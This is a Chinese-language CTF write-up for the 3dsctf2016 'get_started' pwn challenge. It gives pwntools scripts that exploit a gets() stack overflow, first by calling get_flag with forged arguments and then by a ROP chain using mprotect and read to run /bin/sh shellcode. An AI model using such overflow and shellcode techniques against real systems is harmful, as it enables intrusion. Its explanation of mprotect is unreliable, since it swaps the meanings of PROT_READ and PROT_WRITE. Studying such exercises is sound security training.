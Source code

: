 ```yaml
---
layout: post
title:  get_started
date:   2021-01-30 00:01:01 +0300
image:  2021-01-30-dandelion.jpg
tags:   [ctf,Pwn,3dsctf2016]
---
```


主函数

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+4h] [ebp-38h]

  printf("Qual a palavrinha magica? ", v4);
  gets(&v4);
  return 0;
}
```

get_flag()

```assembly
void __cdecl get_flag(int a1, int a2)
{
  int v2; // eax
  int v3; // esi
  unsigned __int8 v4; // al
  int v5; // ecx
  unsigned __int8 v6; // al

  if ( a1 == 814536271 && a2 == 425138641 )
  {
    v2 = fopen("flag.txt", "rt");
    v3 = v2;
    v4 = getc(v2);
    if ( v4 != 255 )
    {
      v5 = (char)v4;
      do
      {
        putchar(v5);
        v6 = getc(v3);
        v5 = (char)v6;
      }
      while ( v6 != 255 );
    }
    fclose(v3);
  }
}
```

我们想通过栈溢出，使得程序直接返回到if语句中的v2 = fopen("flag.txt", "rt");处。但是测试发现行不通。

又因为if判断中的两个变量就是get_flag()函数的参数，所以我们想到可以使栈溢出带参数。

```assembly
from pwn import *

io = remote("node3.buuoj.cn",27711)

flag = 0x080489A0
exi = 0x0804E6A0
# p1 = 0x308CD64F # 814536271
# p2 = 0x195719D1 # 425138641
p1 = 814536271
p2 = 425138641
payload = "a" * 0x38 + p32(flag) + p32(exi)
payload += p32(p1) + p32(p2)
io.sendline(payload)

io.interactive()
```

这里get_flag()函数的返回地址是不能乱写的，如果程序异常退出就不能回显flag。

所以我们使他返回到exit()函数。

后来查阅资料，发现还有一种万能解法。

```assembly
int mprotect(const void *start, size_t len, int prot);
```

mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。

prot可以取以下几个值，并且可以用''\|''将几个属性合起来使用：

1）PROT_READ：表示内存段内的内容可写；

2）PROT_WRITE：表示内存段内的内容可读；

3）PROT_EXEC：表示内存段中的内容可执行；

4）PROT_NONE：表示内存段中的内容根本没法访问。

需要指出的是，指定的内存区间必须包含整个内存页（4K）。区间开始的地址start必须是一个内存页的起始地址，并且区间长度len必须是页大小的整数倍。
如果执行成功，则返回0；如果执行失败，则返回-1，并且设置errno变量，说明具体因为什么原因造成调用失败。

所以如果发现程序中有mprotect()函数，就可以试一下此方法。

```assembly
from pwn import *

io = remote('node3.buuoj.cn',27711)

mprotect = 0x0806EC80
buf = 0x80ea000
pop_3_ret = 0x0804f460
'''
.text:0804F460         pop     ebx
.text:0804F461         pop     esi
.text:0804F462         pop     ebp
.text:0804F463         retn
'''
read_addr = 0x0806E140
 
payload = 'a'*56 +p32(mprotect) + p32(pop_3_ret)
payload += p32(buf) + p32(0x1000) + p32(0x7)
payload += p32(read_addr) + p32(buf)
payload += p32(0) + p32(buf) + p32(0x100)
io.sendline(payload)
 
shellcode = asm(shellcraft.sh(),arch='i386',os='linux')
io.sendline(shellcode)

io.interactive()
```


